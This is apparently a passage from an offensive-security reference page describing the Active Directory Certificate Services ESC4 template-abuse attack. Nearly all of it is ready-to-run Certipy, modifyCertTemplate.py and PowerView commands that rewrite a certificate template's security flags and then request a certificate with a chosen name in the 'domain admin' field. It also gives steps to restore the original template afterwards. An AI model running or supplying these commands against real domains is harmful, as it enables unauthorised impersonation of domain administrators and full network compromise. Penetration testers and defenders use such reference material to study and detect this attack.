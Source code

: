 ```bash
# 1. Save the old configuration, edit the template and make it vulnerable
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template templateName -save-old

# Warning: running the coommand twice will override the backup file, make sure to keep a seconde backup of the old configuration somwhere.

# 2. Request a template certificate with a custom SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

# 3. After the attack, restore the original configuration
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template templateName -configuration 'templateName.json'
```

If a more precise template modification is needed, [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate) (Python) can be used to modify each attributes of the template.

```bash
# 1. Disable Manager Approval Requirement
modifyCertTemplate.py -template templateName -value 2 -property mspki-enrollment-flag "$DOMAIN/$USER:$PASSWORD"

# 2. Disable Authorized Signature Requirement
modifyCertTemplate.py -template templateName -value 0 -property mspki-ra-signature "$DOMAIN/$USER:$PASSWORD"

# 3. Enable SAN Specification
modifyCertTemplate.py -template templateName -add enrollee_supplies_subject -property "msPKI-Certificate-Name-Flag" "$DOMAIN/$USER:$PASSWORD"

# 4. Edit Certificate Application Policy Extension
modifyCertTemplate.py -template templateName -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property "pKIExtendedKeyUsage" "$DOMAIN/$USER:$PASSWORD"
```

> [!TIP]
>
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.



=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate these sensitive access control entries. At the time of writing (October 21st, 2021) [BloodHound](../../recon/bloodhound/index) doesn't support (yet) enumeration of these access controls. [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) can be used to modify the template.

```powershell
# 1. Enumerate sensitive access control entries
Certify.exe find

# 2. Disable Manager Approval Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity tempalteName -XOR @{'mspki-enrollment-flag'=2} -Verbose

# 3. Disable Authorized Signature Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-ra-signature'=0} -Verbose

# 4. Enable SAN Specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -XOR @{'mspki-certificate-name-flag'=1} -Verbose

```